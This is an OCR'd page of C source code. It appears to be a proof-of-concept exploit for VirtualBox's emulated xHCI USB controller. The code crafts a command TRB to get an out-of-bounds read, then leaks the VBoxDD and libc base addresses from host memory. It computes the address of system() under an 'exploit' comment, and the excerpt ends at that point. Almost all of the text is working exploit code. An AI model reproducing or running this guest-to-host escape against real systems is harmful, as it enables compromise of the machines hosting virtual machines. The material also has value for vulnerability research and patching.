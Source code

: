 ```c
    XHCI_COMMAND_TRB *cmd = (XHCI_COMMAND_TRB *)data_mem;
    content_t *content = (content_t *)(data_mem + 0x100);

    uint64_t cmd_pa = 0;
    uint64_t content_pa = 0;
    uint32_t res = 0;

    memset(content, 0, sizeof(content_t));
    content->addr = gva_to_gpa(addr);
    content->off = off;
    content->len = len;
    content->flag = PhysWrite;
    content_pa = gva_to_gpa(content);

    memset(cmd, 0, sizeof(XHCI_COMMAND_TRB));
    cmd->gen.type = 51;
    cmd->gen.cycle = XHCI_CRCR_RCS;
    cmd->adr.ctx_ptr = content_pa;
    cmd_pa = gva_to_gpa(cmd);
    __sync_synchronize();

    // stop
    mmio_write32((xhci_mmio_mem + USBCMD), 0);
    // set pThis->crcr
    mmio_write32((xhci_mmio_mem + CRCRL), cmd_pa | XHCI_CRCR_RCS);
    // start
    mmio_write32((xhci_mmio_mem + USBCMD), XHCI_CMD_RS);
    // notify
    mmio_write32((xhci_mmio_mem + XHCI_DOORBELL_OFFSET), 0);
    __sync_synchronize();
}

int main() {
    xhci_mmio_mem = mmio_init((void *)XHCI_MMIO_ADDR, 0x10000, "/sys/devices/pci0000:00/0000:00:0c.0/resource0");
    printf("[*] xhci_mmio_mem: %p\n", xhci_mmio_mem);
    data_mem = mmap(0, 0x1000, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANON|MAP_POPULATE, -1, 0);
    printf("[*] data_mem: %p\n", data_mem);

    uint8_t *buf = data_mem + 0x200;
    
    /* leak */
    memset(buf, 0, 0x100);
    abread(buf, -0x13f0, 0x100);
    hex_dump64(buf, 0x100);
    uint64_t vboxdd_base = *(uint64_t *)(buf + 0x30) - 0x7cd280;
    uint64_t pThis = *(uint64_t *)(buf + 0x18);
    uint64_t pDevIns = pThis - 0x440;
    uint64_t rw_base = pThis + 0xfb0;
    printf("[+] vboxdd_base: %#lx\n", vboxdd_base);
    printf("[+] rw_base: %#lx\n", rw_base);

    uint64_t vboxdd_got = vboxdd_base + 0x7D9000;
    memset(buf, 0, 0x100);
    printf("[abread] off %#lx len %#lx\n", vboxdd_got-rw_base, 8);
    abread(buf, vboxdd_got-rw_base, 8);
    hex_dump64(buf, 0x8);
    uint64_t libc_base = *(uint64_t *)buf - 0x79b00;
    printf("[+] libc_base: %#lx\n", libc_base);

    /* exploit */
    uint64_t system_addr = libc_base + 0x4ebf0;
    memset(buf, 0, 0x100);
```